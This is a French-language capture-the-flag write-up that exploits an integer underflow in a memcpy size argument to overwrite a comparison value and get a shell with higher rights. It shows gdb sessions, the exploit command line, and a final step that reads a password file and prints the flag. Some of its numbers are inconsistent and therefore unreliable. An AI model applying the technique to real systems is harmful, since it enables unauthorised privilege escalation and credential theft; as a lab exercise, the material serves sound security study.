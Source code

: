 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 conditions qui lui permettront de lancer un `shell` avec les droits de bonus2.

 1. Notre premier argument doit-être inférieur à 10.
 2. Notre premier argument doit-être égal à  `0x574f4c46`  soit  `1464814662`en base 10.
```C
arg1 = atoi(argv[1]);
if (arg1 < 10) {
	memcpy(buffer, argv[2], (len(argv[1]) * 4));
	if (argv[1] == 0x574f4c46)
		execl("/bin/sh");
}
```
Il y a une contradiction entre ces deux conditions. Cela nous semble impossible d'arriver jusqu'au `bin/sh`. Visiblement la seule chose qui nous permettent de réaliser un exploit est le `memcpy`.

Voici le prototype de la fonction `memcpy`:
```
void  *memcpy(void  *dest,  const  void  * src,  size_t n)
```
On voit que le troisième argument de `memcpy` est un `size_t`. Le fait que cela soit un size_t va nous être très utile, puisque que c'est `non signé`.

On peut donc faire un `underflow` et faire copier un nombre d'octets assez grand à `memcpy` pour écraser notre valeur de comparaison. 
Voyons tout ça dans `gdb`.

```
> gdb ./bonus1
[...]
> (gdb) disass main 
[...]
	0x08048470 <+76>:	mov    %eax,(%esp)
	0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
	0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
[...]
```
On voit un call a `memcpy`. On va donc `break` juste après, sur la comparaison et lancer le programme avec différentes valeurs.
```
> (gdb) break *0x08048478
[...]
> (gdb) r 8 A
[...]
> (gdb) x/16wx $esp
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000020	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x6e69622f
0xbffff6d0:	0x7361622f	0x45540068	0x783d4d52	0x6d726574
0xbffff6e0:	0x3635322d	0x00000000	0x080484b9	0x00000008
> (gdb) x $esp
0xbffff6b0:	0xbffff6c4
> (gdb) x $esp+0x3c
0xbffff6ec:	0x00000008
```
On affiche `esp` juste après l'appel à `memcpy`. Au moment de la comparaison, on peut voir `0x00000020` (32 en base 10). 
Nous avons mis `8` comme premier argument. On a `break` après `memcpy`, donc la multiplication par 4 s'est effectuée. `8 * 4 = 32`. 
`0x00000020` correspond donc bien à notre premier argument saisis après la multiplication par 4.
Lorsqu'on affiche `esp`, on obtient l'adresse de notre début de `buffer` : `0xbffff6c4`.
Lorsqu'on affiche `esp+0x3c`, donc ce qui correspond a notre comparaison,  on obtient `0xbffff6ec` : `0x00000008`. Nous avons donc ici notre adresse de comparaison : `0xbffff6ec` et notre premier argument `0x00000008` (8 en base10).

Nous voulons maintenant savoir quelle valeur nous devons mettre afin que notre programme exécute bien un `shell`. 
Nous avons notre `adresse de cmp` ainsi que notre `adresse de début de buffer`.
Nous allons donc faire :
```
[adresse de cmp] - [adresse de début de buffer]
0xbffff6ec - 0xbffff6c4 = 0x28 = 40
```
On peut vérifier cela avec gdb.
```
> (gdb) x/16wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000008	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x080484d1
								 ^
								 Début du buffer (0xbffff6c4)
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x00000002
											    ^
											    Fin du buffer (0xbffff6ec)
```

Sauf que notre dernière adresse n'est pas écrasée. On doit donc ajouter 4 octets pour avoir écraser l'adresse de comparaison. 

On divise donc 44 / 4 car il sera multiplié par 4 dans le memcpy.
On obtient donc 11. Il va falloir écrire 11 fois la valeur de comparaison (`0x574f4c46`) .
Cette valeur de comparaison en little indian est donc `\x46\x4c\x4f\x57`.

On peut maintenant tester avec la valeur `int min` +  44.
```
-2147483647 + 44 = -2147483603
```

```
> (gdb) break *0x08048473
[...]
> (gdb) r -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*11'`
> (gdb) continue
[...]
process 3514 is executing new program: /bin/dash
```
Notre programme se lance bien !
```
./bonus1 -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*164'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```